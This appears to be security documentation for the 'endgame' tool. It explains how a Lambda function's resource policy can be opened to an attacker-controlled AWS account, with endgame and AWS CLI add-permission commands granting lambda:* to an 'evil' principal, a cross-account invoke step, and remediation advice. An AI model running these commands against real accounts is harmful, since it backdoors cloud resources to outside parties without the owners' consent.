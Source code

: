 # Lambda Function Cross-Account Access

AWS Lambda Permission Policies (aka resource-based policies) can allow functions to be invoked from AWS accounts other than the one it is running in.

Compromised Lambda functions are a known attack path for [Privilege Escalation](https://resources.infosecinstitute.com/topic/cloudgoat-walkthrough-lambda-privilege-escalation/) and other nefarious use cases. While the impact often depends on the context of the Lambdas itself, Lambda functions often modify AWS infrastructure or have data plane access. Abusing these capabilities could compromise the confidentiality and integrity of the resources in the account.

Existing Exploitation tools such as [Pacu](https://github.com/RhinoSecurityLabs/pacu) have capabilities that help attackers exploit compromised Lambda functions. Pacu, for example, has modules that leverage Lambda functions to [backdoor new IAM roles](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_roles), to [modify security groups](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_sec_groups), and to [create new IAM users](https://github.com/RhinoSecurityLabs/pacu/tree/master/modules/lambda__backdoor_new_users). As such, Lambda functions are high-value targets to attackers, and existing exploitation frameworks such as Pacu and others increase the likelihood for abuse when a Lambda function is compromised.

## Steps to Reproduce

* **Option 1**: To expose the Lambda function using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service lambda --name test-resource-exposure
```

* **Option 2**: To expose the Lambda Function using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL_ACCOUNT=999988887777

aws lambda add-permission \
    --function-name test-resource-exposure \
    --action lambda:* \
    --statement-id Endgame \
    --principal $EVIL_PRINCIPAL_ACCOUNT
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws lambda get-policy --function-name test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "lambda:*"
      ],
      "Resource": "arn:aws:lambda:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command to invoke the function in the victim account:

```bash
export VICTIM_LAMBDA=arn:aws:lambda:us-east-1:111122223333:test-resource-exposure
aws lambda invoke --function-name $VICTIM_LAMBDA
```

* Observe that the output resembles the following:

```json
{
    "ExecutedVersion": "$LATEST",
    "StatusCode": 200
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that cross-account Lambda functions allow access only to trusted accounts to prevent unknown function invocation requests
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Lambda Functions. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Lambda Functions**: Tightly control access to the following IAM actions:
  - [lambda:AddPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_AddPermission.html): _Grants permission to give an AWS service or another account permission to use an AWS Lambda function_
  - [lambda:GetPolicy](https://docs.aws.amazon.com/lambda/latest/dg/API_GetPolicy.html): _Grants permission to view the resource-based policy for an AWS Lambda function, version, or alias_
  - [lambda:InvokeFunction](https://docs.aws.amazon.com/lambda/latest/dg/API_Invoke.html): _Grants permission to invoke an AWS Lambda function_
  - [lambda:ListFunctions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListFunctions.html): _Grants permission to retrieve a list of AWS Lambda functions, with the version-specific configuration of each function_
  - [lambda:RemovePermission](https://docs.aws.amazon.com/lambda/latest/dg/API_RemovePermission.html): _Grants permission to revoke function-use permission from an AWS service or another account_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [aws lambda add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-permission.html)
* [Access Analyzer support for AWS Lambda Functions](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda)
